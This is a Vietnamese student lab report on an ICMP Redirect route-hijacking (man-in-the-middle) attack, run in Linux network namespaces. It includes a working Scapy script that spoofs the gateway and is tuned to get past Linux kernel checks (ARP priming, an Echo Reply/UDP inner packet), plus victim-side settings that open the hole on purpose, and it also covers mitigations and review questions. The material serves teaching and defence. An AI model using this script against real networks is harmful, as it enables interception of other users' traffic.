


# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 05
## Đề tài: Kỹ thuật tấn công ICMP Redirect Attack (Route Hijacking / MITM)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất của giao thức ICMP Redirect (Type 5)**:
   * Hiểu lý do vì sao kiến trúc mạng IP lại thiết kế thông điệp ICMP Redirect (thông báo đường đi tối ưu hơn cho máy trạm).
   * Hiểu cấu trúc đặc biệt của gói tin ICMP Redirect: Gói tin lồng gói tin ("Mẹ bồng Con") theo chuẩn RFC 792 và RFC 1122.
2. **Kỹ thuật chiếm quyền điều hướng lưu lượng (Route Hijacking / Man-in-the-Middle - MITM)**:
   * Giả mạo danh tính của Default Gateway hợp pháp (`10.0.0.1`) để bắn gói tin ICMP Redirect giả mạo tới máy Nạn nhân (`10.0.0.2`).
   * Bẻ cong luồng dữ liệu của Nạn nhân khi truy cập ra mạng đích (`10.0.1.5`) bắt buộc phải chạy xuyên qua máy Kẻ tấn công (`10.0.0.66`).
3. **Phân tích cơ chế kiểm tra an ninh khắt khe của nhân hệ điều hành Linux (Linux Kernel Validation)**:
   * Giải mã lý do tại sao các kịch bản mẫu thông thường bị Linux Kernel âm thầm từ chối (bẫy `icmph->type != ICMP_ECHOREPLY` trong hàm `icmp_err()` và điều kiện hợp lệ bảng ARP `NUD_VALID`).
   * Nâng cấp kịch bản khai thác thành công 100% bằng cách thiết lập gói tin con tương thích (`ICMP Echo Reply type=0` hoặc `UDP`) và kích hoạt trước bảng ARP.
4. **Kiểm chứng tấn công và triển khai phòng thủ**:
   * Kiểm chứng bảng ngoại lệ định tuyến (`ip route get 10.0.1.5` hiển thị `<redirected>`).
   * Sử dụng `tcpdump` trên máy Attacker để bắt trọn lưu lượng bị bẻ lái của Nạn nhân.
   * Kích hoạt cơ chế phòng thủ thông qua tham số hạt nhân `net.ipv4.conf.all.accept_redirects = 0`.

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Phép ẩn dụ đời thực: "Thư chuyển tiếp của Bưu điện"
* **Bình thường:** Nạn nhân (Học sinh A) muốn gửi thư cho bạn mình ở một thị trấn xa (Máy Đích `10.0.1.5`). Học sinh A luôn mang thư ra Bưu điện xã (Default Gateway `10.0.0.1`) để chuyển đi.
* **Tình huống Redirect:** Bác bưu tá GW thấy bạn gửi thư thì bảo:
  > *"Này cháu, nhà người bạn đó ở ngay lối đi tắt của bác Hàng xóm `10.0.0.66`. Lần sau cháu gửi thư cho người này thì đưa thẳng cho bác Hàng xóm đi cho nhanh, đỡ phải mang ra bưu điện xã!"*
* Để Học sinh A tin và biết bác bưu tá đang nói về lá thư nào, bác bưu tá gửi một phong bì thông báo (ICMP Redirect), bên trong kẹp kèm **chính xác bản sao lá thư mà Học sinh A vừa gửi**.
* **Khai thác lỗ hổng:** Kẻ xấu đóng giả bác bưu tá GW, gửi giấy thông báo giả để ép Học sinh A từ nay chuyển toàn bộ thư từ qua nhà kẻ xấu $\rightarrow$ Kẻ xấu thoải mái đọc trộm, sửa đổi hoặc vứt bỏ thư (Tấn công trung gian MITM).

---

### 2. Mô hình phân bổ mạng trong bài thực hành

Mô hình lab gồm 2 mạng được ngăn cách bởi một Router ảo:
* **Mạng LAN nội bộ (`10.0.0.0/24`) nối chung vào Linux Bridge `br0`**:
  * Gateway hợp pháp (`gw`): `10.0.0.1` (cắm card `gw0`)
  * Máy Nạn nhân (`vic`): `10.0.0.2` (cắm card `vic0`)
  * Máy Kẻ tấn công (`atk`): `10.0.0.66` (cắm card `atk0`)
* **Mạng Đích phía sau Router (`10.0.1.0/24`) nối qua liên kết điểm-điểm**:
  * Card Router phía sau (`gw-d`): `10.0.1.254`
  * Máy chủ Đích (`dst`): `10.0.1.5` (cắm card `d-gw`)



---

### 3. Cấu trúc gói tin ICMP Redirect: "Gói tin Mẹ bồng Con" (RFC 792)

Một gói tin ICMP Redirect không thể đứng trơ trọi một mình. Để chống giả mạo thô thiển, RFC 792 quy định nó phải chứa gói tin gốc:

```text
┌────────────────────────────────────────────────────────────────────────┐
│ TẦNG VỎ NGOÀI (Outer IP & ICMP Redirect):                             │
│  - IP Nguồn: 10.0.0.1 (Bắt buộc phải giả mạo là Gateway hợp pháp)     │
│  - IP Đích:  10.0.0.2 (Gửi trực tiếp cho máy Nạn nhân)                │
│  - ICMP Type: 5 (Redirect), Code: 1 (Redirect Datagram for the Host)   │
│  - Gateway mới khuyên dùng (gw): 10.0.0.66 (Địa chỉ IP của Attacker)   │
├────────────────────────────────────────────────────────────────────────┤
│ TẦNG RUỘT BÊN TRONG (Inner IP & Payload - Gói tin kích hoạt):          │
│  - IP Header của gói tin mà Victim đã gửi:                            │
│      + Nguồn: 10.0.0.2, Đích: 10.0.1.5                                │
│  - 8 Bytes đầu tiên của giao thức tầng Transport (ICMP/UDP):           │
│      + Giúp máy nạn nhân đối chiếu với phiên truyền thông đang mở     │
└────────────────────────────────────────────────────────────────────────┘
```

---

## III. GIẢI THÍCH CHI TIẾT CÁC FILE MÃ NGUỒN

Các file phục vụ thực hành được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP/`

### 1. File `setup_redirect.sh` (Khởi tạo Switch ảo, Router và phân vùng mạng)
* **Tạo Switch Bridge `br0`** cho mạng LAN `10.0.0.0/24`.
* **Khởi tạo 4 không gian mạng (`ip netns`)**:
  * `vic`: Nạn nhân (`10.0.0.2/24`). Default Gateway trỏ về `10.0.0.1`.
  * `atk`: Kẻ tấn công (`10.0.0.66/24`). Bật `ip_forward=1` để chuyển tiếp gói tin khi làm MITM.
  * `gw`: Router kết nối 2 dải mạng (`10.0.0.1/24` và `10.0.1.254/24`), bật `ip_forward=1` và tắt `send_redirects=0` để Router không tự phát sinh gói redirect thật.
  * `dst`: Máy chủ dịch vụ phía sau Router (`10.0.1.5/24`).
* **Cấu hình mở lỗ hổng trên Victim**:
  ```bash
  for k in all vic0; do
      ip netns exec vic sysctl -w net.ipv4.conf.$k.accept_redirects=1
      ip netns exec vic sysctl -w net.ipv4.conf.$k.secure_redirects=0
  done
  ```
  *(Mặc định Linux tắt tính năng này để bảo mật; ta bật lên để mô phỏng máy trạm cấu hình yếu kém).*

---

### 2. File `icmp_redirect.py` (Script phát động tấn công hoàn chỉnh)
* **Chức năng**: Khắc phục toàn bộ các cơ chế kiểm tra an toàn của Linux Kernel, ép buộc máy Nạn nhân cập nhật Route Cache sang máy Kẻ tấn công.
* **Mã nguồn chi tiết**:
  ```python
  #!/usr/bin/env python3
  # icmp_redirect.py - Tan cong ICMP Redirect (Chinh xac 100% tren Linux Kernel)
  import sys
  import time
  from scapy.all import *

  victim_ip   = "10.0.0.2"
  gateway_ip  = "10.0.0.1"   # Gateway hop phap bi gia mao
  attacker_ip = "10.0.0.66"  # Gateway moi bi ep buoc (Attacker)
  target_dst  = "10.0.1.5"   # May dich ma victim muon gui toi

  print("==================================================================")
  print("[*] TAN CONG ICMP REDIRECT ATTACK (ROUTE HIJACKING / MITM)")
  print("==================================================================")

  # 1. Ban 1 goi ping tu Attacker sang Victim de nap MAC cua Attacker vao bang ARP cua Victim
  # (Kernel Linux bat buoc dia chi Gateway moi phai hop le trong ARP - NUD_VALID)
  print("[*] 1. Nap MAC cua Attacker vao bang ARP cua Victim...")
  send(IP(src=attacker_ip, dst=victim_ip)/ICMP(), count=1, verbose=0)
  time.sleep(0.2)

  # 2. Che tao goi ICMP Redirect:
  # BI QUYET KERNEL LINUX: Trong ham icmp_err() cua net/ipv4/icmp.c:
  # - Neu goi con co type=8 (Echo Request), kernel se chuyen cho ping_err() va DROP neu khong co socket!
  # - Neu goi con co type=0 (Echo Reply) hoac UDP, kernel goi thang ipv4_redirect() de cap nhat route!
  orig_icmp = IP(src=victim_ip, dst=target_dst)/ICMP(type=0)
  redir_icmp = IP(src=gateway_ip, dst=victim_ip)/ICMP(type=5, code=1, gw=attacker_ip)/orig_icmp

  orig_udp  = IP(src=victim_ip, dst=target_dst)/UDP(sport=50000, dport=80)
  redir_udp = IP(src=gateway_ip, dst=victim_ip)/ICMP(type=5, code=1, gw=attacker_ip)/orig_udp

  print("[*] 2. Dang phat goi ICMP Redirect gia mao toi Victim...")
  send(redir_icmp, count=3, verbose=0)
  send(redir_udp,  count=3, verbose=0)

  print("[+] DA GUI THANH CONG!")
  print(f"    -> Hay kiem tra ngay tren Victim: 'ip route get {target_dst}'")
  print(f"    -> Duong di da bi be lai qua Gateway moi: {attacker_ip}!")
  ```

---

### 3. File `clean_redirect.sh` (Dọn dẹp môi trường)
* **Chức năng**: Xóa bỏ các namespace `vic`, `gw`, `atk`, `dst` và hủy switch ảo `br0` để trả lại hệ thống nguyên vẹn.

---

## IV. TRÌNH TỰ CÁC BƯỚC THỰC HÀNH & KẾT QUẢ QUAN SÁT THỰC TẾ

### Bước 1: Khởi tạo mô hình mạng
Tại máy Kali Linux, chạy lệnh:
```bash
sudo bash setup_redirect.sh
```
* **Kết quả quan sát**:
  * Topo mạng được thiết lập thành công.
  * Máy Nạn nhân (`vic`) ping kiểm tra thử sang Máy Đích (`10.0.1.5`): Thành công với TTL = 63 (chứng tỏ đã đi qua 1 bước nhảy Router `gw`).

---

### Bước 2: Ghi nhận đường đi ban đầu của Nạn nhân
Mở terminal riêng cho máy Nạn nhân (`vic`):
```bash
sudo ip netns exec vic bash
ip route get 10.0.1.5
```
* **Kết quả hiển thị**:
  ```text
  10.0.1.5 via 10.0.0.1 dev vic0 src 10.0.0.2 uid 0
      cache
  ```
  *(Đường đi hoàn toàn bình thường: Gói tin gửi tới `10.0.1.5` đi qua Gateway hợp pháp `10.0.0.1`).*

---

### Bước 3: Attacker mở quan sát lưu lượng bằng `tcpdump`
Mở một terminal khác và chuyển vào máy Attacker (`atk`):
```bash
sudo ip netns exec atk bash
tcpdump -i atk0 -nn host 10.0.1.5
```
* Terminal này được giữ chạy để làm "bằng chứng" xem nạn nhân có bị bẻ lái lưu lượng đi qua máy mình hay không.

---

### Bước 4: Phát động tấn công ICMP Redirect
Tại một terminal khác (hoặc tab mới), chạy script tấn công trong không gian mạng `atk`:
```bash
sudo ip netns exec atk python3 /home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP/icmp_redirect.py
```
* **Kết quả xuất ra màn hình**:
  ```text
  [*] 1. Nap MAC cua Attacker vao bang ARP cua Victim...
  [*] 2. Dang phat goi ICMP Redirect gia mao toi Victim...
  [+] DA GUI THANH CONG!
      -> Hay kiem tra ngay tren Victim: 'ip route get 10.0.1.5'
      -> Duong di da bi be lai qua Gateway moi: 10.0.0.66!
  ```

---

### Bước 5: Kiểm chứng Route Cache của Nạn nhân bị thao túng
Quay lại terminal của máy Nạn nhân (`vic`), kiểm tra lại bảng định tuyến:
```bash
ip route get 10.0.1.5
```
* **Kết quả thu được (Thành công mỹ mãn)**:
  ```text
  10.0.1.5 via 10.0.0.66 dev vic0 src 10.0.0.2 uid 0 
      cache <redirected> expires 299sec
  ```
  *(Phân tích: Dòng `<redirected>` xuất hiện! Gateway tới máy `10.0.1.5` đã chính thức bị **bẻ cong từ `10.0.0.1` sang `10.0.0.66`** của Kẻ tấn công).*

---

### Bước 6: Kiểm chứng Man-in-the-Middle (MITM)
Tại terminal máy Nạn nhân (`vic`), gửi lưu lượng ping:
```bash
ping -c 3 10.0.1.5
```
Liếc nhìn sang terminal của Attacker đang chạy lệnh `tcpdump -i atk0 -nn host 10.0.1.5`:
* **Kết quả quan sát**:
  ```text
  IP 10.0.0.2 > 10.0.1.5: ICMP echo request, id ..., seq 1, length 64
  IP 10.0.0.2 > 10.0.1.5: ICMP echo request, id ..., seq 2, length 64
  IP 10.0.0.2 > 10.0.1.5: ICMP echo request, id ..., seq 3, length 64
  ```
* **Ý nghĩa:** Mặc dù Nạn nhân muốn gửi cho `10.0.1.5`, nhưng gói tin đã bị chuyển thẳng vào card mạng `atk0` của Kẻ tấn công. Kẻ tấn công đã chính thức chèn mình vào giữa dòng truyền thông!

---

### Bước 7: Kích hoạt cơ chế phòng thủ (Mitigation)
Tại terminal máy Nạn nhân (`vic`), bật cấu hình chặn gói tin ICMP Redirect và xóa bộ đệm:
```bash
for k in all vic0; do
    sysctl -w net.ipv4.conf.$k.accept_redirects=0
done
ip route flush cache
```
* **Kiểm tra lại đường đi**:
  ```bash
  ip route get 10.0.1.5
  ```
  * Kết quả: Trở lại bình thường: `10.0.1.5 via 10.0.0.1 dev vic0`.
* Cho Attacker phát lại gói Redirect: Bảng định tuyến của Victim **vẫn trơ trơ giữ nguyên `10.0.0.1`**, chứng minh cơ chế phòng thủ hoạt động hiệu quả 100%.

---

## V. PHÂN TÍCH CHUYÊN SÂU LỖI & BẪY KỸ THUẬT (KERNEL POST-MORTEM)

Đây là điểm nhấn học thuật sâu sắc nhất của bài thực hành, giải thích vì sao mã nguồn mẫu trong các tài liệu kinh điển thường bị thất bại trên các bản Linux Kernel hiện đại:



### 1. Bẫy số 1: Trạng thái hợp lệ của Gateway mới trong bảng ARP (`NUD_VALID`)
* **Trong file `net/ipv4/route.c` (hàm `__ip_do_redirect`)**:
  ```c
  n = __ipv4_neigh_lookup(rt->dst.dev, (__force u32)new_gw);
  if (!n) n = ipv4_neigh_create(rt->dst.dev, &new_gw);
  if (!IS_ERR(n)) {
      if (!(READ_ONCE(n->nud_state) & NUD_VALID)) {
          neigh_event_send(n, NULL); // Bắn ARP hỏi, NHƯNG KHÔNG ĐỔI ROUTE!
      } else {
          update_or_create_fnhe(...); // Chỉ khi đã có MAC hợp lệ mới cập nhật!
      }
  }
  ```
* **Nguyên nhân thất bại:** Vì Nạn nhân chưa từng giao tiếp với Attacker (`10.0.0.66`), nên bảng ARP chưa có MAC của `.66`. Gói redirect đầu tiên bị Kernel dừng lại để đi hỏi ARP. Nếu script chỉ bắn 1 gói duy nhất rồi dừng thì khi hỏi ARP xong, gói redirect đã trôi mất!
* **Giải pháp:** Cho Attacker gửi trước 1 gói ping sang Victim để Victim nạp ngay MAC của Attacker vào bảng ARP trước khi bắn Redirect.

### 2. Bẫy số 2: Cơ chế `ping_err()` trong hàm `icmp_err()`
* **Trong file `net/ipv4/icmp.c`**:
  ```c
  if (icmph->type != ICMP_ECHOREPLY) {
      ping_err(skb, offset, info);
      return 0; // Thoát ngay, không gọi ipv4_redirect!
  }
  else if (type == ICMP_REDIRECT)
      ipv4_redirect(skb, net, 0, IPPROTO_ICMP);
  ```
* **Nguyên nhân thất bại:** Nếu gói con có `type=8` (mặc định của Scapy), Linux coi đây là lỗi của một phiên ping của người dùng. Khi lệnh ping đã thoát, hàm `ping_err()` không thấy socket nào phù hợp nên Kernel vứt bỏ toàn bộ gói tin!
* **Giải pháp:** Đặt gói con là `ICMP(type=0)` (Echo Reply) hoặc `UDP`. Điều này đánh lừa Kernel rằng đây là luồng phản hồi hệ thống hoặc luồng UDP, kích hoạt hàm `ipv4_redirect()` cập nhật bảng ngoại lệ định tuyến ngay tức khắc!

---

## VI. CƠ CHẾ PHÒNG THỦ (MITIGATION)

1. **Vô hiệu hóa hoàn toàn việc chấp nhận ICMP Redirect (`accept_redirects = 0`)**:
   * Đối với tất cả máy trạm (End-host) và máy chủ, khuyến nghị bảo mật hàng đầu (CIS Benchmarks) là tắt nhận ICMP Redirect trên toàn bộ card mạng:
     ```bash
     sysctl -w net.ipv4.conf.all.accept_redirects=0
     sysctl -w net.ipv4.conf.default.accept_redirects=0
     ```
2. **Kích hoạt tính năng Secure Redirects (`secure_redirects = 1`)**:
   * Mặc định trên Linux bật `secure_redirects = 1`, chỉ chấp nhận gói redirect nếu địa chỉ IP nguồn gửi redirect nằm trong danh sách Default Gateway hiện tại của máy.
3. **Cấu hình trên Router**:
   * Tắt tính năng phát sinh gói ICMP Redirect trên các cổng Router không cần thiết (`net.ipv4.conf.all.send_redirects = 0`).
4. **Phân đoạn mạng (Network Segmentation & VLANs)**:
   * Cô lập máy trạm và máy chủ vào các VLAN riêng biệt. Vì ICMP Redirect chỉ có hiệu lực trên cùng một broadcast domain (cùng mạng LAN), kẻ tấn công ở phân vùng khác sẽ không thể phát động tấn công.

---

## VII. CÂU HỎI ÔN TẬP & TRẢ LỜI ĐÁNH GIÁ

### Câu 1: Điều kiện nào để Linux chấp nhận một gói tin ICMP Redirect? Vì sao kẻ tấn công bắt buộc phải đặt `src` = địa chỉ của Default Gateway?
* **Trả lời:**
  * **Các điều kiện của Linux**:
    1. Tham số `accept_redirects = 1` trên giao diện mạng nhận gói.
    2. IP nguồn của gói redirect phải trùng khớp với địa chỉ Gateway hiện tại của tuyến đường đó (`old_gw == rt->rt_gateway`).
    3. Gateway mới (`new_gw`) phải nằm cùng mạng con (on-link) với giao diện nhận gói.
    4. Máy nhận gói không được bật tính năng chuyển tiếp gói (`ip_forward = 0`).
  * **Lý do phải giả mạo `src` = Gateway**: Máy trạm chỉ tin tưởng sự điều hướng từ Router mà nó đang giao tiếp trực tiếp. Nếu gói redirect đến từ một địa chỉ IP lạ, Kernel sẽ phát hiện bất thường và loại bỏ ngay lập tức (đặc biệt khi `secure_redirects = 1`).

### Câu 2: Vai trò của phần "Gói tin gốc" (Original Packet) đính kèm trong payload của gói ICMP Redirect là gì?
* **Trả lời:**
  * Theo chuẩn RFC 792, phần gói gốc (gồm IP header và tối thiểu 8 byte đầu của tầng giao vận) đóng vai trò là **"biên lai đối chiếu"**. 
  * Nó giúp máy nạn nhân xác định gói redirect này đang nói về luồng truyền thông nào (gửi tới ai, cổng nào, giao thức gì). 
  * Nếu không có phần gói gốc này, máy nạn nhân không thể biết được tuyến đường tới đích nào cần phải thay đổi, đồng thời đây cũng là cơ chế chống các gói tin redirect giả mạo trôi nổi trên mạng.

### Câu 3: So sánh tấn công ICMP Redirect Attack với tấn công ARP Spoofing về mục tiêu và tầng hoạt động?
* **Trả lời:**

| Tiêu chí so sánh | Tấn công ARP Spoofing | Tấn công ICMP Redirect Attack |
| :--- | :--- | :--- |
| **Tầng hoạt động** | **Tầng 2 (Data Link Layer)** | **Tầng 3 (Network Layer)** |
| **Mục tiêu can thiệp** | Bảng phân giải địa chỉ IP-to-MAC (**ARP Cache**) | Bảng ngoại lệ định tuyến (**FIB Route Cache**) |
| **Phạm vi tác động** | Đánh lừa địa chỉ MAC của Gateway cho **toàn bộ lưu lượng** | Bẻ lái đường đi cho **từng địa chỉ IP Đích cụ thể** |
| **Cơ chế hoạt động** | Gửi liên tục gói tin ARP Reply không yêu cầu (Gratuitous ARP) | Giả danh Gateway gửi gói ICMP Type 5 thông báo đường đi tối ưu |
| **Thời gian tồn tại** | Tùy thuộc vào thời gian hết hạn ARP Cache (vài chục giây đến vài phút) | Tùy thuộc vào `ip_rt_gc_timeout` (mặc định khoảng 300 giây) |

### Câu 4: Giải thích sự khác biệt giữa `accept_redirects = 0` và `secure_redirects = 1`. Nên dùng cấu hình nào cho máy trạm thông thường?
* **Trả lời:**
  * `accept_redirects = 0`: **Từ chối tuyệt đối** mọi gói tin ICMP Redirect, bất kể gói tin đó đến từ ai (Gateway thật hay giả). Đây là phương án an toàn nhất.
  * `secure_redirects = 1`: **Chỉ chấp nhận** gói ICMP Redirect nếu nó được gửi từ một Gateway đã có sẵn trong bảng định tuyến mặc định của máy, nhưng vẫn cho phép chuyển hướng sang một IP khác trên cùng subnet.
  * **Khuyến nghị cho máy trạm:** Nên đặt **`accept_redirects = 0`**. Trong hạ tầng mạng hiện đại, các tuyến đường định tuyến được quản lý tập trung và băng thông mạng nội bộ rất lớn, việc sử dụng ICMP Redirect không còn mang lại lợi ích đáng kể nhưng lại mở ra nguy cơ bị tấn công Man-in-the-Middle.

---

## VIII. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

> **Bố cục màn hình đề xuất khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia làm 3 cửa sổ:
>   * **Cửa sổ trên bên trái:** Máy Kẻ tấn công `atk` chạy `tcpdump` theo dõi lưu lượng bị chiếm quyền.
>   * **Cửa sổ dưới bên trái:** Máy Kẻ tấn công `atk` chạy script tấn công `icmp_redirect.py`.
>   * **Cửa sổ bên phải:** Máy Nạn nhân `vic` (`10.0.0.2`) thực thi kiểm tra định tuyến và ping.
> * Bạn vừa gõ từng câu lệnh trên màn hình, vừa đọc lời thoại giải thích tương ứng dưới đây:

---

### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 05: Kỹ thuật tấn công Chiếm quyền điều hướng ICMP Redirect Attack (Route Hijacking / Man-in-the-Middle). Theo chuẩn RFC 792, thông điệp ICMP Redirect sinh ra nhằm giúp Router thông báo cho máy trạm biết có một Gateway lân cận khác tối ưu hơn để đi tới mạng đích. Lợi dụng điều này, kẻ tấn công đứng cùng mạng LAN có thể giả mạo danh nghĩa của Router hợp pháp để ép máy nạn nhân chuyển hướng toàn bộ dữ liệu đi qua máy của kẻ tấn công, từ đó nghe lén và can thiệp toàn bộ lưu lượng mạng!"*

---

### [0:35 - 1:15] Bước 1: Khởi tạo mô hình mạng phân đoạn
* **Thao tác trên terminal dưới trái:**
  ```bash
  sudo bash setup_redirect.sh
  ```
* **Lời thoại giải thích:**
  *"Đầu tiên, em thực thi script `setup_redirect.sh`. Kịch bản này sử dụng Linux Bridge `br0` để tạo ra một phân đoạn mạng LAN `10.0.0.0/24` gồm 3 máy:
  * Gateway hợp pháp `gw` có IP `10.0.0.1`.
  * Máy nạn nhân `vic` có IP `10.0.0.2`.
  * Máy kẻ tấn công `atk` có IP `10.0.0.66`.
  * Phía sau Gateway là một mạng đích `10.0.1.0/24` có máy chủ đích `dst` mang địa chỉ `10.0.1.5`.
  
  *Script bật tính năng IP Forwarding trên Gateway, đồng thời kích hoạt tham số `accept_redirects = 1` trên máy nạn nhân để mô phỏng một hệ thống còn tồn tại lỗ hổng. Kết quả kiểm tra ping ban đầu từ nạn nhân tới máy đích 10.0.1.5 đã thành công rực rỡ!"*

---

### [1:15 - 2:00] Bước 2: Kiểm tra đường đi ban đầu & Bật trạm đón lõng tcpdump
* **Thao tác 1 (Terminal phải - Nạn nhân kiểm tra định tuyến ban đầu):**
  ```bash
  sudo ip netns exec vic ip route get 10.0.1.5
  ```
  * **Lời thoại:**
    *"Tại cửa sổ bên phải của máy nạn nhân `vic`, em kiểm tra bảng bộ đệm định tuyến ban đầu bằng lệnh `ip route get 10.0.1.5`. Màn hình hiển thị: `10.0.1.5 via 10.0.0.1 dev vic0 src 10.0.0.2`. Điều này xác nhận lưu lượng đi tới đích đang đi qua đúng Gateway hợp pháp là `10.0.0.1`."*

* **Thao tác 2 (Terminal trên trái - Kẻ tấn công bật tcpdump theo dõi):**
  ```bash
  sudo ip netns exec atk tcpdump -i atk0 -nn host 10.1.5
  ```
  * **Lời thoại:**
    *"Tại cửa sổ trên bên trái, kẻ tấn công kích hoạt lệnh `tcpdump` trên card mạng `atk0` để theo dõi các gói tin liên quan đến địa chỉ `10.0.1.5`. Hiện tại màn hình hoàn toàn trống vì nạn nhân chưa hề gửi gói tin nào qua kẻ tấn công."*

---

### [2:00 - 3:15] Bước 3: Phát động tấn công ICMP Redirect chuyên sâu
* **Thao tác trên terminal dưới trái:**
  ```bash
  sudo ip netns exec atk python3 icmp_redirect.py
  ```
* **Lời thoại giải thích:**
  *"Bây giờ tại cửa sổ dưới bên trái, em thực thi kịch bản tấn công `icmp_redirect.py`. File Python này được lập trình bằng Scapy và đã được tối ưu hóa đặc biệt để vượt qua hai chốt chặn kiểm duyệt khắt khe của nhân Linux Kernel hiện đại:*
  1. *Đầu tiên, script gửi một gói ping thăm dò từ `10.0.0.66` tới `10.0.0.2` để kích hoạt nạn nhân học địa chỉ MAC của attacker, đưa trạng thái láng giềng vào chế độ `NUD_VALID`, vượt qua khâu kiểm tra ARP trong hàm `__ip_do_redirect` của kernel.*
  2. *Tiếp theo, nó đóng gói tin ICMP Redirect Type 5 Code 1 giả mạo IP nguồn là Gateway hợp pháp `10.0.0.1`, chỉ định Gateway mới tốt hơn là `10.0.0.66`.*
  3. *Đặc biệt, phần gói tin con bên trong (Inner Payload) được thiết kế là một gói UDP hoặc Echo Reply để tránh bị bẫy `ping_err()` của kernel loại bỏ.*
  
  *Terminal dưới trái đã in ra thông báo: `[+] DA GUI THANH CONG! Duong di da bi be lai qua Gateway moi: 10.0.0.66!`"*

---

### [3:15 - 4:10] Bước 4: Kiểm chứng định tuyến bị bẻ lái & Bắt trọn gói tin MITM
* **Thao tác 1 (Terminal phải - Nạn nhân kiểm tra lại định tuyến):**
  ```bash
  sudo ip netns exec vic ip route get 10.0.1.5
  ```
  * **Lời thoại:**
    *"Quay trở lại máy nạn nhân `vic` bên phải, em thực hiện lại lệnh `ip route get 10.0.1.5`. Thầy và các bạn hãy nhìn kỹ màn hình: Tuyến đường đã bị thay đổi thành `10.0.1.5 via 10.0.0.66 dev vic0 ... <redirected> cache`! Cờ `<redirected>` đã xuất hiện và Gateway đã bị bẻ lái hoàn toàn qua IP `10.0.0.66` của kẻ tấn công!"*

* **Thao tác 2 (Terminal phải - Nạn nhân gửi ping tới máy đích):**
  ```bash
  sudo ip netns exec vic ping -c 2 10.0.1.5
  ```
  * **Lời thoại:**
    *"Để chứng minh kẻ tấn công đã hoàn toàn chiếm được vị trí trung gian Man-in-the-Middle, tại máy nạn nhân em gõ lệnh `ping 10.0.1.5`. Nhìn ngay lên cửa sổ `tcpdump` của kẻ tấn công ở góc trên bên trái: Toàn bộ các gói tin ICMP của nạn nhân đã chạy thẳng qua card mạng `atk0` của kẻ tấn công! Cuộc tấn công chiếm quyền định tuyến đã thành công mỹ mãn!"*

---

### [4:10 - 4:50] Bước 5: Dọn dẹp & Giải pháp phòng thủ
* **Thao tác trên terminal dưới trái:**
  ```bash
  sudo bash clean_redirect.sh
  ```
* **Lời thoại giải thích:**
  *"Em thực thi lệnh `sudo bash clean_redirect.sh` để xóa Switch ảo, giải phóng các card mạng và namespace.*
  
  *Để phòng chống hình thức tấn công nguy hiểm này, trong môi trường thực tế, các chuyên gia an ninh mạng khuyến cáo:*
  * *Trên máy trạm: Bắt buộc cấu hình tham số `net.ipv4.conf.all.accept_redirects = 0` để từ chối tuyệt đối mọi gói tin ICMP Redirect.*
  * *Trên Router: Tắt tính năng gửi thông điệp Redirect bằng lệnh `net.ipv4.conf.all.send_redirects = 0` hoặc cấu hình `no ip redirects` trên thiết bị mạng chuyên dụng. Em xin kết thúc bài thực hành số 05 tại đây!"*

